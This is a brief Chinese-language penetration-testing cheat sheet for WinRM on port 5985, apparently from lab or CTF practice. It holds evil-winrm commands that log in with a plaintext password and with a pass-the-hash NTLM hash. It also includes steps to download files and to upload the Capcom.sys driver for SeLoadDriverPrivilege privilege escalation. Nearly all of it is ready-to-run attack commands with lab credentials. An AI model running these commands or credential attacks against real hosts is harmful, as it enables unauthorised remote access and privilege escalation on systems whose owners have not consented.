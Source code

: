 # 5985 (winrm)

1. 连接工具

```bash
evil-winrm.rb -i 10.129.9.147 -u svc-alfresco -p s3rvice
利用这个shell下载东西（到kali）可以直接用download
也可以wget

下载kali的东西：
upload /root/Desktop/poc/SeLoadDrivverPrivilege/Capcom.sys .
```

1. hash登陆

```bash
evil-winrm -i 10.129.13.243 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
